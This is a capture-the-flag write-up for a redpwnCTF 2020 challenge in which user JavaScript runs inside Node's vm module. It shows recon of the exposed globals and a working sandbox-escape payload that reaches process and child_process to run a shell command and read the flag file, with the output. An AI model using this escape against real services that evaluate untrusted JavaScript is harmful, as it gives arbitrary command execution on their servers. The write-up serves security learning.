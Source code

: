 ### Challenge
```
Who needs regex for sanitization when we have VMs?!?!

The flag is at /ctf/flag.txt

nc 2020.redpwnc.tf 31273
```

### Recon
* Playing with the cli with Javascript we understand that, all javascript globals seems to be allowed like here --> https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects

```
nc 2020.redpwnc.tf 31273
Welcome to my Calculator-as-a-Service (CaaS)!
This calculator lets you use the full power of Javascript for
your computations! Try `Math.log(Math.expm1(5) + 1)`
Type q to exit.

> eval(/ctf/flag.txt)
An error occurred.

> eval
function eval() { [native code] }

> parseInt
function parseInt() { [native code] }

> decodeURI
function decodeURI() { [native code] }

> parseFloat
function parseFloat() { [native code] }

> Object
function Object() { [native code] }

> Object.keys
function keys() { [native code] }

> Function
function Function() { [native code] }
```

* Taking VM as a hint --> Javascript VM seems to be one way to go --> https://nodejs.org/api/vm.html

* After doing all this I knew about I got to know the challenge had the calculator.js file that confirms the vm assumption

### Solve

* Bypassing vm --> runInNewContext with references below, (https://pwnisher.gitlab.io/nodejs/sandbox/2019/02/21/sandboxing-nodejs-is-hard.html)
```
const process = this.constructor.constructor('return this.process')();process.mainModule.require('child_process').execSync('cat /ctf/flag.txt').toString()
```

* FLag
```
> let a = "welcome!";a;
welcome!

> const process = this.constructor.constructor('return this.process')();process.mainModule.require('child_process').execSync('cat /ctf/flag.txt').toString()
flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}
```

### References
* https://pwnisher.gitlab.io/nodejs/sandbox/2019/02/21/sandboxing-nodejs-is-hard.html
* https://github.com/patriksimek/vm2/issues/32
* https://gist.github.com/domenic/d15dfd8f06ae5d1109b0
* https://nodejs.org/api/vm.html
* https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects
